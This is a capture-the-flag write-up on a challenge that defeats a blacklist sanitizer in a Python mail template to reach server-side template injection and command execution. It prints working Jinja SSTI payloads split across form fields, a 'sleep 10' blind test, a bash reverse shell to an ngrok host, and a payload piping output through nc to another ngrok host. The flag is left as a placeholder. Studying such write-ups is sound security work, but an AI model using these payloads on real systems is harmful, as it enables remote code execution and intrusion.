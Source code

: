 ```yaml
---
layout: default
title: Blind-SSTI-Filters-Bypass
---
```


In this challenge we need to exploit `SSTI` to achieve `RCE`.

As we can see, this is how the data is getting inserted to the template:
```py
mail = """
Hello team,

A new hacker wants to join our private Bug bounty program! Mary, can you schedule an interview?

 - Name: {{ hacker_name }}
 - Surname: {{ hacker_surname }}
 - Email: {{ hacker_email }}
 - Birth date: {{ hacker_bday }}

I'm sending you the details of the application in the attached CSV file:

 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'

Best regards,
"""
```

However, there is this `sanitize` function:
```py
def sanitize(value):
    blacklist = ['{{','}}','{ %','% }','import','eval','builtins','class','[',']']
    for word in blacklist:
        if word in value:
            value = value.replace(word,'')
    if any([bool(w in value) for w in blacklist]):
        value = sanitize(value)
    return value
```

And also this length limitation:
```py
if len(request.form["name"]) > 20:
    return render_template("index.html", error="Field 'name' is too long.")
if len(request.form["surname"]) >= 50:
    return render_template("index.html", error="Field 'surname' is too long.")
if len(request.form["email"]) >= 50:
    return render_template("index.html", error="Field 'email' is too long.")
if len(request.form["bday"]) > 10:
    return render_template("index.html", error="Field 'bday' is too long.")
```

The main problem here is that we can't send `{{` or `}}`, and same for `{ %` and `% }`.
In such case, there is no way to get `SSTI`. 

Is it?
We can see this line in the mail that is being sent:
```py
 - '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'
```

What will happen if we'll give this for example:
```py
hacker_name = '{'
hacker_surname = '{ 7*7 '
hacker_email = '}'
hacker_bday = '}'
```

When testing locally, we're getting `SSTI`!

Okay, i went to [PayloadAllTheThings SSTI Python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), and got this line:
```py
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

Let's check for `Blind RCE`, like giving `sleep 10`, Notice we must divide it to the `surname` and `email`, because each one can contain up to 50 chars.

This will be our payload:
```py
name={&surname={cycler.__init__.__globals__.os.popen('sleep+10&email=').read()}&bday=}
```

As you can see, it takes 10 seconds until we get response

![sleep PoC](./images/Blind-SSTI-Filters-Bypass_sleep_PoC.png)

Now we just need to get our reverse shell, and find the flag.

However, for somehow i didn't manage to get that, even simple `nc` not working for me, and this is the same for other challenges on this platform, don't know why.

Any way, the payload for the reverse shell will be:
```
sh -i >& /dev/tcp/2.tcp.eu.ngrok.io/17645 0>&1
```

And the final payload (which working fine for me when running the challenge locally...)

```
name={&surname={cycler.__init__.__globals__.os.popen('echo 1337&email=|+nc+5.tcp.eu.ngrok.io+13190').read()}&bday=}
```
so, surname = `{cycler.__init__.__globals__.os.popen('echo 1337`, email = `| nc 5.tcp.eu.ngrok.io 13190').read()}`.

![local RCE](./images/Blind-SSTI-Filters-Bypass_local_RCE.png)

I need to send this to the challenge, and get the data, but it doesn't work :| 

**Flag:** ***`PLACE_HOLDER`***
